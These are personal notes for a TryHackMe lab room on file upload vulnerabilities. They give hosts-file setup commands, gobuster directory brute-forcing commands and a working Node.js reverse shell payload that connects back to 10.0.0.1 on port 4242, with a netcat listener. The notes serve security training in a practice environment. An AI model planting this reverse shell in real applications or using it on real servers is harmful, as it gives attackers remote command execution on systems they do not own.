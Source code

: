 ```yaml
---
Tags: 
date: 06-14-2022
---
```


[TryHackMe Rooms](./TryHackMeRooms)

---



These are my notes for the Upload Vulnerabilities room

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

hosts for Linux

```python
echo "MACHINE_IP overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" | sudo tee -a /etc/hosts

sudo sed -i '$d' /etc/hosts
```

hosts for power shell and windows

```python
AC C:\\Windows\\System32\\drivers\\etc\\hosts "MACHINE_IP   overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm"

(GC C:\\Windows\\System32\\drivers\\etc\\hosts | select -Skiplast 1) | SC C:\\Windows\\System32\\drivers\\etc\\hosts
```

```python
gobuster dir -u <http://jewel.uploadvulns.thm/content> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u <http://jewel.uploadvulns.thm/content> -w ~/thmuploadvulns/UploadVulnsWordlist.txt -t 300 -x jpg | tee ~/thmuploadvulns/gobuster-content-default

tee formats the data?
```

[GoBuster CheatSheet](https://www.notion.so/GoBuster-CheatSheet-f2ce00609dc04ee089ab1370386ffb69)

```python
NODEJS reverse shell nc -lvnp 4242

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

TMUX—— CTRL+SHIFT+R
